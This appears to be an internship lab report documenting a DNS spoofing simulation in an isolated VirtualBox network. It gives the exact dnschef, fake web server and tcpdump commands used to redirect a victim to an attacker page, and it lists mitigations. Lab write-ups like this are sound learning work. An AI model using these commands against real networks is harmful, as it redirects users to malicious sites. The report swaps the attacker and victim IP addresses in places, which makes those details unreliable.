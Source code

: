 # Task-6 — DNS Spoofing Attack Simulation (Brief)

**Internship:** Broskieshub.com
**Objective :** I set up an isolated VirtualBox lab (`labnet`) and simulated a DNS spoofing attack to demonstrate how DNS responses can be manipulated to redirect a victim to an attacker‑controlled page.

---

## Lab setup
- Attacker (Kali): `192.168.56.20`  
- Victim (Win7): `192.168.56.10`  
- Network: VirtualBox **Internal Network** `labnet` (isolated from public internet)

![](Screenshots/kali_net.png)

![](Screenshots/win7_net.png)

![](Screenshots/kali_ip.png)

![](Screenshots/win7_ip.png)

> Note: I used only command‑line tools available on the VMs. No GUI interfaces or additional installs were used during testing.

![](Screenshots/tools_confirm.png)

---

## Commands I ran (exact, in order)

**On Kali (attacker) — host fake site**
```bash
sudo mkdir -p /var/www/html/fake_example
echo "<html><body><h1>example.com — Internship Task 6 (Fake Page)</h1><p>This site is a lab demonstration used for DNS spoofing simulation.</p></body></html>" | sudo tee /var/www/html/fake_example/index.html
cd /var/www/html/fake_example
sudo python3 -m http.server 80
````

![](Screenshots/fakepage_server.png)

![](Screenshots/fakepage_browser.png)

**On Kali — start DNSChef (CLI) to spoof example.com**

```bash
# bind to all interfaces and spoof example.com to 192.168.56.20
sudo dnschef --interface 192.168.56.10 --fakeip 192.168.56.20 --fakedomains example.com
```

![](Screenshots/dnschef-running.png)

**On Kali — capture DNS traffic for evidence**

```bash
sudo tcpdump -i eth0 -n udp port 53
```

![](Screenshots/dns-tcpdump.png)

**On Windows 7 (victim) — flush DNS & test**

```cmd
ipconfig /flushdns
```

![](Screenshots/win7_flushdns.png)

---

## What happened
* From the victim (`192.168.56.20`) I ran `nslookup example.com` and received the spoofed A record `192.168.56.10` (attacker).
* Visiting `http://example.com` on the victim loaded the attacker‑hosted fake page, confirming successful DNS spoofing in the isolated lab.

![](Screenshots/attack_fakepage_in_win7.png)

---

## Short reflection 
> Performing this controlled lab helped me understand how DNS resolution can be abused to transparently redirect users to malicious sites. I observed that a single forged DNS reply can make a victim visit an attacker page, and that packet capture and DNS logging are essential evidence for analysis. Mitigations I noted include DNSSEC, encrypted DNS (DoH/DoT), and strict TLS certificate validation.

---

## Ethics & cleanup

* All testing was performed only on an isolated internal VirtualBox network (`labnet`).
* After testing I stopped the HTTP server and dnschef and removed the test content:

```bash
# on Kali
sudo pkill -f python3
sudo pkill dnschef || true
sudo rm -rf /var/www/html/fake_example
```
---
End of report.